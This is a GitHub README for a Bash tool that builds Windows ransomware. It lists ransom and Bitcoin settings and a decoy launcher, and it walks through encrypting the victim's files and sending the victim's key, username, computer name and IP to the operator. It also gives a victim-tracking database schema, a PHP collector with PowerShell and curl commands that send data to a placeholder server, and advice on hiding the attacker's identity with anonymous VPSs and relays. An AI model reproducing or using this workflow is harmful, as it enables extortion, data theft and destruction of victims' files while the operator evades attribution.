 # Cheschire

[![Version](https://img.shields.io/badge/Version-1.0-blue.svg?style=for-the-badge)]()
[![Language](https://img.shields.io/badge/Bash-4.2%2B-brightgreen.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Available-Debian-orange.svg?style=for-the-badge)]()
[![Download](https://img.shields.io/badge/Size-260K-brightgreen.svg?style=for-the-badge)]()
[![License](https://img.shields.io/badge/License-GPL%20v3%2B-red.svg?style=for-the-badge)](https://github.com/hacknonym/Cheschire/blob/master/LICENSE)

### Author: github.com/hacknonym

## A Windows Ransomware

![Banner]()

**Cheschire** generate executable ranwomware for Windows target. #cheschire #ransomware
# Using the AES encryption algorithm powershell module from https://github.com/thelinuxchoice/hidden-cry.git

## Legal disclaimer

Usage of **Cheschire** for attacking targets without prior mutual consent is illegal.
Do not use in military or secret service organizations, or for illegal purposes.
It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developer assume no liability and is not responsible for any misuse or damage caused by this program.

## Features !
 - Specify location where to start encryption *e.g. ($home)*
 - Specify a specific extension *e.g. (.cheschire)*
 - Specify a ransom amount
 - Specify a Bitcoin address
 - Specify a decoy program *e.g. (avast antivirus)*
 - Specify a specific wallpaper
 - Specify speficic extensions *e.g. (.jpg, .docx)*
 - Specify a icon for the main program

## Installation and Usage
Necessary to have root rights
```bash
git clone https://github.com/hacknonym/Cheschire.git
cd Cheschire
sudo chmod +x displaydb.sh
sudo chmod +x listener.sh
sudo chmod +x cheschire.sh
sudo ./cheschire.sh
```
To compile the generated files, use [**Bat_to_Exe_Convertor**.](https://bat-to-exe-converter-x64.en.softonic.com/) 

## Operating steps
**Ransomware (.exe) steps**
- Move to the directory ``` %APPDATA% ```
- Launch of the integrated decoy program, *e.g. avast.exe*
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Creation of the file __Cipher.psm1__
- Random generation of an identifier of the form {xxx-xxx-xxx}
- Creation of the file __cry.ps1__
- Launch of the file __cry.ps1__
  * Random generation of a secret key, *e.g. o6nklwri0s4d39hc7gxmzv5qlgy1xc4eu3a2dr7h8i0=*
  * Encoding information in Base64
  * Sending the encoded information (secret key, ID, Date, Time, Username, Computer Name, Public IP) to the hacker via [RequestBin](https://requestbin.io/)
  * Import module __Cipher.psm1__ and start encryption on the specified extensions
- Move to the directory ``` %USERPROFILE%\Desktop ```
- Creation of the file __readme.html__
- Launch of the file __readme.html__
- Copy the file ``` %APPDATA%\decrypt0r.exe ``` to ``` %USERPROFILE%\Desktop\ ```
- Changing the wallpaper with ``` %APPDATA%\wallpaper.jpg ```
- Deleting files embedded in ``` %APPDATA% ``` (avast.exe, wallpaper.jpg, decrypt0r.exe)

**decrypt0r.exe steps**
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Creation of the file __decry.psm1__
- Creation of the file __decryGUI.ps1__
- Launch of the file __decryGUI.ps1__
  * Opening a graphic window (GUI) to enter the secret key
  * If the field is not empty then we try to decrypt the files and if the files have been decrypted then delete the files (decry.psm1, decryGUI.ps1) in ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ``` otherwise if the field is empty or the key incorrect, nothing happens (closing the window)
  
## Using MySQL DataBase
Creating a new user
```bash
mysql> CREATE USER 'newuser'@'localhost' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON * . * TO 'newuser'@'localhost';
```
Once the new user has been created, specify credentials in the **ident.txt** file
<br />**Default credentials**
```text
DBNAME : Cheschire
USERNAME : root
PASSWORD : 
```

DATABASE NAME: **Cheschire**
| TABLES |
|  :------:  |
|  Victim  |
|  Country |

**Victim** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- |--- |
| Id_Victim | int(11) | NO | PRI | NULL | auto_increment |
| Date_Compromise | datetime | YES | --- | NULL | --- |
| IP_Address | varchar(15) | YES | --- | NULL | --- |
| ISP | text | YES | --- | NULL | --- |
| Country | varchar(2) | YES | MUL | NULL | --- |
| Region | text | YES | --- | NULL | --- |
| City | text | YES | --- | NULL | --- |
| Timezone | varchar(100) | YES | --- | NULL | --- |
| User_Name | varchar(50) | YES | --- | NULL | --- |
| Computer_Name | varchar(50) | YES | --- | NULL | --- |
| Ident | varchar(17) | YES | --- | NULL | --- |
| Secret_Key |  varchar(45) | YES | --- | NULL | --- |

**Country** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- | --- |
| Id_Country | varchar(2) | NO | PRI | NULL | --- |
| Name | varchar(60) | NO | --- | NULL | --- |

## Why use RequestBin to send information
It is quite possible to send the information through an HTTP request directly to our server without going through a service provider
**index.php**
```php
<?php
if(isset($_GET["query"])){
    $file = fopen("output.txt", "a+");
    fwrite($file, $_GET['query']."\n");
}
?>
```
Launch the server
```bash
$> php -S 0.0.0.0:8080
```
Send a request from Windows (Command Prompt & PowerShell)
```PowerShell
cmd> curl http://<IP_SERVER>:8080/?query=Hello World

PS> (New-Object System.Net.WebClient).DownloadString("http://<IP_SERVER>:8080/?query=" + "Hello World")
```
However for the victim to be able to send information, our server must be accessible
by Internet (if not on the same local network). But by making accessible
the server from the Internet, we expose ourselves to risks concerning our identity.
Indeed, if the victim analyzes his outgoing connection logs, the public IP address of the
remote server (our HTTP server) will be displayed in plain text while sending information.

## Why use Bat_to_Exe_Convertor to compile
For all this to work, we need to have 3 files
- the decryption program (.exe),
- a wallpaper (.jpg)
- a decoy program (.exe).

It is impossible to integrate these three files inside an executable (e.g. in a
C program), it would then be necessary to download them from the Internet
on the target machine (if not on the same local network), but it would be necessary
to take adequate measures regarding the anonymity of the server from which these
files would be downloaded, in this case it is therefore imperative to use
- Relay servers
- Anonymous VPS
- External service providers (e.g. https://www.mediafire.com/, http://ge.tt/, etc.)

In addition, this does not exclude a potential blockage of certain
ports, services, IP addresses due to a firewall, which would prevent us from
download our files.

## Tools Overview
![Create Ransomware](https://user-images.githubusercontent.com/55319869/87853921-5ae67800-c90e-11ea-9c51-f1d5bacc8fdf.png)
![Check & Compile info](https://user-images.githubusercontent.com/55319869/87853923-5c17a500-c90e-11ea-8fb6-c4881e41f270.png)
![DATABASE interactions](https://user-images.githubusercontent.com/55319869/87853925-5d48d200-c90e-11ea-9712-4a5dbb8defe6.png)
![List victims from the DATABASE](https://user-images.githubusercontent.com/55319869/87853926-5e79ff00-c90e-11ea-80a9-730a1275804e.png)
![Number of victims](https://user-images.githubusercontent.com/55319869/87853928-5fab2c00-c90e-11ea-81ec-f220e7daf716.png)
![Instructions](https://user-images.githubusercontent.com/55319869/87875073-efb0aa80-c9ce-11ea-985a-de94dc9095b8.png)

## License
GNU General Public License v3.0 for Cheschire
AUTHOR: @hacknonym

